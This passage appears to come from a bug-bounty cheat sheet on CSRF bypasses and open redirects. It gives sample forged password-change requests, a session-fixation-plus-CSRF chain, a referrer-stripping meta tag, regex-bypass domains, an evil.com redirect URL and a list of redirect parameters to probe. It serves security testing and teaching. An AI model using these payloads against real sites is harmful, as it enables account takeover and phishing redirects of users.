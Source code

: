 Code: http

```http
POST /change_password
POST body:
new_password=qwerty&csrf_token=
```

## Session Fixation > CSRF
Steps:

1. Session fixation
2. Execute CSRF with the following request:

Code: http

```http
POST /change_password
Cookie: CSRF-Token=fixed_token;
POST body:
new_password=pwned&CSRF-Token=fixed_token
```

## Anti-CSRF Protection via the Referrer Header
If an application is using the referrer header as an anti-CSRF mechanism, you can try removing the referrer header. Add the following meta tag to your page hosting your CSRF script.

`<meta name="referrer" content="no-referrer"`

## Bypass the Regex

---

Sometimes the Referrer has a whitelist regex or a regex that allows one specific domain.

Let us suppose that the Referrer Header is checking for _google.com_. We could try something like `www.google.com.pwned.m3`, which may bypass the regex! If it uses its own domain (`target.com`) as a whitelist, try using the target domain as follows `www.target.com.pwned.m3`.

You can try some of the following as well:

`www.pwned.m3?www.target.com` or `www.pwned.m3/www.target.com`

# Open Redirect
The malicious URL an attacker would send leveraging the Open Redirect vulnerability would look as follows: `trusted.site/index.php?url=https://evil.com`

Make sure you check for the following URL parameters when bug hunting, you'll often see them in login pages. Example: `/login.php?redirect=dashboard`

- ?url=
- ?link=
- ?redirect=
- ?redirecturl=
- ?redirect_uri=
- ?return=
- ?return_to=
- ?returnurl=
- ?go=
- ?goto=
- ?exit=
- ?exitpage=
- ?fromurl=
- ?fromuri=
- ?redirect_to=
- ?next=